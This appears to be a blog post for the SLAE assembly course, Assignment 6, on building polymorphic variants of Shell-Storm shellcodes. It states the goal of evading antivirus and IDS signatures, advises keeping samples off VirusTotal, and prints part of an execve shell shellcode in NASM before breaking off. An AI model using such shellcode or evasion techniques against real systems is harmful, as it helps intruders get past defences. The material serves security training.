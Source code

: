 ```yaml
---
layout: post
title:  "SLAE Assignment 6 - Polymorphic shellcodes"
date:   2017-04-29
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
### Assignment 6:  
    
**Our Goal:**  
> *Take up 3 shellcodes from Shell-Storm and create polymorphic versions*
 - *The polymorphic versions can not be larger than 150% of the original versions*
 - *Bonus points if shorter in length than original*  

  
Hello everybody,  
  
So today we will create some polymorphic versions of existing shellcodes on the well-known site [shell-storm](http://shell-storm.org/shellcode/).  
Polymorphic versions aims at defeating pattern matching by AV and IDS:  
 - Replacing instructions with equivalent ones.
 - Add garbage instructions that will not change the shellcode functionality but create a mess for the AV analysis.  
  
[VirusTotal](https://www.virustotal.com/) gathers AV engines but i do not recommend to test your shellcode on it because it will be fingerprinted and may be added to their database, so your next NSA hack may fail, such a pity.  
<br />
### jmp/call/pop execve shell:  
  
Ok so for our first shellcode [execve.nasm](https://github.com/phackt/slae/tree/master/assignment6/execve/execve.nasm) let's have a look at a [jmp/call/pop execve shellcode](http://shell-storm.org/shellcode/files/shellcode-863.php) (52 bytes long):  
```nasm
global _start

section .text
_start:
    jmp short here

me:
    pop esi
    mov edi,esi
    
    xor eax,eax
    push eax
    mov edx,esp
    
    push eax
    add esp,3
    lea esi,[esi +4]
    xor eax,[esi]
    push eax
    xor eax,eax
    xor eax,[edi]
    push eax
```